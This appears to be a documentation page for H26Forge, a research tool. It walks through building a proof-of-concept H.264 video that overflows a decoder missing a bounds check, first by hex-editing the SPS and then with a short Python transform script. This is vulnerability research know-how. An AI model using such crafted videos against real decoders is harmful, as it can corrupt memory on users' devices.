








# Motivation for H26Forge

To see why a tool like H26Forge is valuable, we'll go through an example of modifying syntax elements manually. You can follow along with the [H.264 spec](https://www.itu.int/rec/T-REC-H.264-202108-I/en).

## Observation

Suppose that we find a decoder that is missing a bounds check for `num_ref_frames_in_pic_order_cnt_cycle`, which is used as a loop bound for parsing `offset_for_ref_frame[]` values.



We would like to create a proof-of-concept video that demonstrates what can go wrong with this missing bounds check. 
Our proof-of-concept encoded video needs to do three things:
1. Reach this parsing code.
2. Have an out-of-bounds `num_ref_frames_in_pic_order_cnt_cycle`.
3. Have enough `offset_for_ref_frame` values.

We will first show why satisfying these three objects manually is possible, but challenging, and how H26Forge simplifies this process. 

## Manually Modifying Syntax Elements

We will modify `pic_order_cnt_type` to be 1, `num_ref_frames_in_pic_order_cnt_cycle` to be 300, and each `offset_for_ref_frame` value to 0. Each of these syntax elements is entropy encoded with the `ue(v)` or `se(v)` functions. These are unsigned and signed [exp-Golomb](https://en.wikipedia.org/wiki/Exponential-Golomb_coding) codings, respectively, which are variable length codes. The benefit of using exp-Golomb is that smaller, more likely values take up less space. 

For a manual modification of syntax elements, we could try to find an example H.264 video that may get us most of the way there, but since the syntax elements are small enough we will work with [input_vids/SPS_PPS_I_P.264](../input_vids/SPS_PPS_I_P.264) inside a hex editor. To view the syntax elements, you can use [FFmpeg](https://developer.ridgerun.com/wiki/index.php/H264_Analysis_Tools#Display_Nal_Unit_.2F_Slice_Information), the [H.264 reference decoder](https://iphome.hhi.de/suehring/tml/download/), or any [H.264](https://github.com/aizvorski/h264bitstream) [bitstream](https://github.com/IENT/YUView) [analyzer](https://mradionov.github.io/h264-bitstream-viewer/). Keep in mind that because we are setting the syntax elements to be out-of-bounds values, these tools may not decode the stream correctly.

### 1. Reaching this parsing Code

To reach `num_ref_frames_in_pic_order_cnt_cycle`, we need to set `pic_order_cnt_type` to 1. Looking at the output of the bitstream analyzer for `SPS_PPS_I_P.264`, we see that `pic_order_cnt_type` is currently set to 0:

```
Annex B NALU w/ long startcode, len 10, forbidden_bit 0, nal_reference_idc 3, nal_unit_type 7

	SPS: profile_idc                                                (100)
	SPS: constraint_set0_flag                                       (false)
	SPS: constraint_set1_flag                                       (false)
	SPS: constraint_set2_flag                                       (false)
	SPS: constraint_set3_flag                                       (false)
	SPS: constraint_set4_flag                                       (false)
	SPS: constraint_set5_flag                                       (false)
	SPS: reserved_zero_2bits                                        (0)
	SPS: level_idc                                                  (11)
	SPS: seq_parameter_set_id                                       (0)
	SPS: chroma_format_idc                                          (1)
	SPS: bit_depth_luma_minus8                                      (0)
	SPS: bit_depth_chroma_minus8                                    (0)
	SPS: qpprime_y_zero_transform_bypass_flag                       (false)
	SPS: seq_scaling_matrix_present_flag                            (false)
	SPS: log2_max_frame_num_minus4                                  (0)
	SPS: pic_order_cnt_type                                         (0)      <-- Need to change this to 1
	SPS: log2_max_pic_order_cnt_lsb_minus4                          (2)
...
```
The exp-Golomb encoding of 0 is the single bit `b1`, and the encoding of 1 is the bit sequence `b010`. This means that we have to insert two more bits into the file. We need to first identify where in the file `pic_order_cnt_type` is encoded:



By either manually encoding the preceding SPS syntax elements, or through trial-and-error, we identify the 2nd big-endian bit in `0xD` located at 0x9 corresponds to the 1 encoding.



So to set this to the recovered value of 1, we change the binary from `b1[1]01` to `b1[010]` or from `0xD` to `0xA`. At the moment, we are overwriting the hex and ignoring subsequently decoded syntax elements. 



Running this new file through our bitstream analyzer we see that the `pic_order_cnt_type` value has been updated, but the rest of the bitstream leads to unexpected values.

```
Annex B NALU w/ long startcode, len 10, forbidden_bit 0, nal_reference_idc 3, nal_unit_type 7

	SPS: profile_idc                                                (100)
	SPS: constraint_set0_flag                                       (false)
	SPS: constraint_set1_flag                                       (false)
	SPS: constraint_set2_flag                                       (false)
	SPS: constraint_set3_flag                                       (false)
	SPS: constraint_set4_flag                                       (false)
	SPS: constraint_set5_flag                                       (false)
	SPS: reserved_zero_2bits                                        (0)
	SPS: level_idc                                                  (11)
	SPS: seq_parameter_set_id                                       (0)
	SPS: chroma_format_idc                                          (1)
	SPS: bit_depth_luma_minus8                                      (0)
	SPS: bit_depth_chroma_minus8                                    (0)
	SPS: qpprime_y_zero_transform_bypass_flag                       (false)
	SPS: seq_scaling_matrix_present_flag                            (false)
	SPS: log2_max_frame_num_minus4                                  (0)
	SPS: pic_order_cnt_type                                         (1)         // Has been updated!
	SPS: delta_pic_order_always_zero_flag                           (true)      // The rest of the bitstream is now off
	SPS: offset_for_non_ref_pic                                     (-2)
	SPS: offset_for_top_to_bottom_field                             (9)
	SPS: num_ref_frames_in_pic_order_cnt_cycle                      (2)         // Target syntax element
	SPS: offset_for_ref_frame                                       (-1)
	SPS: offset_for_ref_frame                                       (0)
...
```

Because we don't care about the values up to our target, we can continue onward.

### 2. Set `num_ref_frames_in_pic_order_cnt_cycle` to an out-of-bounds value

To set `num_ref_frames_in_pic_order_cnt_cycle` to 300, we need to change its existing exp-Golomb encoding of 2 (`b011`) to 300 (`b00000000100101101`). For reference, [here](http://wobblycucumber.blogspot.com/2013/05/unsigned-exponential-golomb-codes.html) is an online exp-Golomb encoder/decoder.

Again, through manually encoding the bitstream values, or through trial-and-error, we can find the location of the currently encoded `num_ref_frames_in_pic_order_cnt_cycle` to be inside of `0x4D` at 0xB:



Looking at the bit-sequence, the value 2 is encoded inside `0x4D` at `b010[0 11]01`. We will rewrite this by inserting `b00000000100101101` or `b0 0000 0001 0010 1101` or `0x012D` after the `0x4`:



Looking at the bitstream again, we see that we were successful in our modification but we get a crash that prevents us from reading more `offset_for_ref_frame` values:

```
Annex B NALU w/ long startcode, len 10, forbidden_bit 0, nal_reference_idc 3, nal_unit_type 7

	SPS: profile_idc                                                (100)
	SPS: constraint_set0_flag                                       (false)
	SPS: constraint_set1_flag                                       (false)
	SPS: constraint_set2_flag                                       (false)
	SPS: constraint_set3_flag                                       (false)
	SPS: constraint_set4_flag                                       (false)
	SPS: constraint_set5_flag                                       (false)
	SPS: reserved_zero_2bits                                        (0)
	SPS: level_idc                                                  (11)
	SPS: seq_parameter_set_id                                       (0)
	SPS: chroma_format_idc                                          (1)
	SPS: bit_depth_luma_minus8                                      (0)
	SPS: bit_depth_chroma_minus8                                    (0)
	SPS: qpprime_y_zero_transform_bypass_flag                       (false)
	SPS: seq_scaling_matrix_present_flag                            (false)
	SPS: log2_max_frame_num_minus4                                  (0)
	SPS: pic_order_cnt_type                                         (1)
	SPS: delta_pic_order_always_zero_flag                           (true)
	SPS: offset_for_non_ref_pic                                     (-2)
	SPS: offset_for_top_to_bottom_field                             (9)
	SPS: num_ref_frames_in_pic_order_cnt_cycle                      (300)       <-- Set to 300
	SPS: offset_for_ref_frame                                       (1)         // Run out of bits to continue
...
```

Now we will insert more bytes into the bitstream to have enough `offset_for_ref_frame` values.

### 3. Include enough `offset_for_ref_frame` to overflow

Our modifications have led us to the end of the SPS, so we need to insert more bytes into the bitstream to ensure we will have enough `offset_for_ref_frame` values to decode. 

For simplicity, we will set each `offset_for_ref_frame` value to 0 which is an exp-Golomb encoding of `b1`. This means we insert 75 `0xF`s into the bitstream, and some more for the rest of the bitstream:



And now we get the following syntax elements:

```
Annex B NALU w/ long startcode, len 65, forbidden_bit 0, nal_reference_idc 3, nal_unit_type 7

	SPS: profile_idc                                                (100)
	SPS: constraint_set0_flag                                       (false)
	SPS: constraint_set1_flag                                       (false)
	SPS: constraint_set2_flag                                       (false)
	SPS: constraint_set3_flag                                       (false)
	SPS: constraint_set4_flag                                       (false)
	SPS: constraint_set5_flag                                       (false)
	SPS: reserved_zero_2bits                                        (0)
	SPS: level_idc                                                  (11)
	SPS: seq_parameter_set_id                                       (0)
	SPS: chroma_format_idc                                          (1)
	SPS: bit_depth_luma_minus8                                      (0)
	SPS: bit_depth_chroma_minus8                                    (0)
	SPS: qpprime_y_zero_transform_bypass_flag                       (false)
	SPS: seq_scaling_matrix_present_flag                            (false)
	SPS: log2_max_frame_num_minus4                                  (0)
	SPS: pic_order_cnt_type                                         (1)
	SPS: delta_pic_order_always_zero_flag                           (true)
	SPS: offset_for_non_ref_pic                                     (-2)
	SPS: offset_for_top_to_bottom_field                             (9)
	SPS: num_ref_frames_in_pic_order_cnt_cycle                      (300)
	SPS: offset_for_ref_frame                                       (0)
... A total of 298 more all 0
	SPS: offset_for_ref_frame                                       (0)
...
```

### Summary

Through this manual process, we now have a PoC to write all 0s after a missing bounds-check for `num_ref_frames_in_pic_order_cnt_cycle`. It would require more work in order to fix the rest of the bitstream to make the decoder continue decoding after this.

Now let's see how this process is simplified with H26Forge.

## Modifying with H26Forge

With H26Forge, we can follow the syntax elements in the H.264 spec, and completely ignore any kind of bitstream encoding or hex editing. All the above changes get summarized to the following Python code:

```python
# ./h26forge modify -i input_vids/SPS_PPS_I_P.264 -o oob_num_ref_frames.264 -t transforms/oob_num_ref_frames_in_pic_order_cnt_cycle.py
def oob_num_ref_frames_in_pic_order_cnt_cycle(ds):
    value_to_write = 0
    ds["spses"][0]["pic_order_cnt_type"] = 1
    ds["spses"][0]["num_ref_frames_in_pic_order_cnt_cycle"] = 300
    ds["spses"][0]["offset_for_ref_frame"] = [value_to_write] * ds["spses"][0]["num_ref_frames_in_pic_order_cnt_cycle"]

    # New addition
    for i in range(len(ds["slices"])):
        ds["slices"][i]["sh"]["delta_pic_order_cnt"] = [0, 0]
    return ds
```

We can see in the snippet that we can directly set the syntax elements to whatever value we would like. This is because H26Forge handles the entropy decoding/encoding so all you have to do is focus on syntax element manipulation. One addition to note is the for loop at the bottom. This is because `pic_order_cnt_type` is used in slice header decoding, so the decoder expects those values if it continues to decode the bitstream:



## Conclusion

H26Forge greatly simplifies syntax element manipulation of H.264 encoded videos allowing for the creation of syntactically-correct but semantically non-compliant videos.